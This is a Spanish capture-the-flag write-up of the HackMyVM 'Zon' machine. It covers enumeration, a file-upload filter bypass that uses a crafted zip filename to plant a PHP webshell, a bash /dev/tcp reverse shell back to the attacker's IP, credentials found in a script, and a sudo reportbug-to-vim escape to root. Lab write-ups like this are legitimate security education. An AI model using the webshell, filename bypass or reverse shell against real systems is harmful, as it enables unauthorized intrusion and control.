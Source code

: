 ```yaml
---
layout: post
title: HackMyVM - Zon
author: c4rta
date: 2024-01-24
tags: [HackMyVM, Arbitrary File Upload]
image: /assets/img/zon/zon.png
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.74
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Al principio intente hacer fuzzing con el diccionario de **directory-list-2.3-medium.txt** pero no encontre nada, por lo que use uno de archivos, y encontre el endpoint **choose.php** haciendo uso de gobuster

```ruby
gobuster dir -u 192.168.1.74 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 50
```
```ruby
/choose.php           (Status: 200) [Size: 1908]
```

## Explotacion (Arbitrary File Upload)

Viendo el funcionamiento de **choose.php**, vemos que podemos subir archivos .zip con archivos .jpeg dentro, y una vez subidos, se encuentran en el recurso **/uploads**. Si intentamos subir un archivo que no es jpeg, nos muestra algo como esto

    File prueba.zip has been uploaded.Archive contains non-JPEG files. It will be deleted.

En este punto podriamos probar tratar de hacer bypass de algunos filtros o hacer zip symlik pero no sera necesario, despues de una busqueda, encontre una forma de hacer **command injection** a travez del nombre del archivo que se sube a un sitio web, como se explica en este blog: [https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename](https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename)

Vemos que nos dice podemos ejecutar comandos si subimos un archivo con este nombre **a$(whoami)z.jpeg**, que viendo su funcionamiento, se trendria que hacer la expansion de comandos y mostrar el resultado de **whoami**, intente eso pero subiendo una webshell y no me funciono, entonces se me ocurrio que podria ser el nombre del archivo, asi que tenia que ponerlo de forma literal usando comillas simples para que no me escapara los caracteres especiales como el espacio, ademas de poner la extension **.jpeg**  para que lo aceptara. Asi que los pasos fueron:

1. Crear un archivo php que sea una webshell, yo use: **<?php system($_GET['cmd']); ?>**

2. Renombar el archivo:  
    ```ruby
    cp shell.php 'hola.jpeg .php'
    ```
    Se tiene que poner el espacio y entre comillas para que se interprete de forma literal, como se ve en la imagen en el archivo de arriba, y cuando se procese se elimine el espacio en blanco

    ![](/assets/img/zon/1.png)

3. Y por ultimo se comprime: **zip ola.zip 'hola.jpeg .php'**

Una vez que se suba, veremos nuestro archivo php, y habemos podido conseguir RCE

![](/assets/img/zon/3.png)

![](/assets/img/zon/2.png)

Ahora nos podemos enviar una reverse shell usando bash:

```bash
bash -i >& /dev/tcp/<ip>/443 0>&1 <-- Usar URL encode
```

#### ¿Por que funciona?

Si vemos el archivo **upload.php** encargado de la subida del archivo,  vemos la parte en la que hace el filtrado:

```php
$command = "unzip -l " . escapeshellarg($target_file) . " | awk '{print $4}' | grep -v \"\\.jpeg$\" | grep . | tail -n1 | grep \"\\.\"";
        exec($command, $output, $return_var);
```

- Se usa **escapeshellarg** para escapar los caracteres especiales del nombre del archivo
- Despues se usa **awk '{print $4}'** para imprimir la cuarta columna, la cual es el nombre del archivo
- Despues usando grep para filtrar y excluir los que tienen ".jpeg"
- Despues usando otro grep filtra por los archivos que contengan almenos un **.**
- Y para finalizar usa otro grep para filtrar los archivos que tienen un solo punto seguido, es decir, **.** y no **..**, por lo que si el archivo tiene esto **archivo.jpeg ..php**, no lo aceptaria, por tener dos puntos seguidos antes del php

Basicamente funciona por que solo se esta filtrando que contenga la cadena **.jpeg** mas no por toda la extension del archivo, asi que solo es necesario agregar el espacio (que luego sera eliminado) y el **.jpeg** para hacer bypass de ese filtro, seguido de la extension **.php**, quedando el archivo despues de procesar como: **archivo.jpeg.php**

## www-data -> freddie

Si realizamos una busqueda para mostrar los archivos asociados a un grupo, encontraremos uno que se llama **hashdb.sh**

```ruby
find / -type f -group www-data 2> /dev/null
```
```ruby
/var/www/html/hashDB.sh
```

Al ver si contenido, nos podemos dar cuenta que se conecta a mysql y se filtran las credenciales: **admin:-pudgrJbFc6Av#U3**

```bash
#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}" <-- Credenciales
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi
```

Si nos conectamos, y mostramos las bases de datos, en la base de datos  **admin** encontramos la tabla **credentials** y las credenciales del usuario **freddie** que usaremos en ssh

![](/assets/img/zon/4.png)

usr: freddie

pass: LDVK@dYiEa2I1lnjrEeoMif

## Escalada de privilegios

Al mostrar los permisos a nivel de sudoers podremos ver el archivo **/usr/bin/reportbug** que es un script de python

```ruby
file /usr/bin/reportbug
/usr/bin/reportbug: Python script, ASCII text executable
```
La verdad ni lo vi completo, pero jugue con las funciones, y parece ser un script que enviar reportes de bugs en paquetes de debian, pero, la cuestion es que en un punto nos dice que editor queremos usar y nos da las opciones de **vim** y **nano**, si hacemos una busqueda en GFTOBins, nos dice que podemos spawnear una shell usando ese editor: [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

Asi que los pasos a seguir son

1. Ejecutar el script y seleccionar la opcion 4 (expert) y rellenar los datos
2. Volvelo a ejecutar y cuando nos diga *Please enter the name of the package in which you have found a problem*, ingresamos "other"
3. Ponemos el numero **12**
4. Si sale el prompt: *Is the bug you found listed above* , le damos **s**
5. Si sale *Please select a severity level:*, le damos **4**
6. Si sale: *Please select tags: (one at a time)*, le damos enter
7. Despues nos deberia de pedir el editor, seleccionamos **vim** e ingresamos estos comandos de vim

```ruby
set shell=/bin/bash
```

Y despues mandamos a llamar a la variable escribiendo **shell** y ya seremos root

![](/assets/img/zon/5.png)

(Espero que me haya explicado bien en esta parte)

Eso ha sido todo, gracias por leer ❤



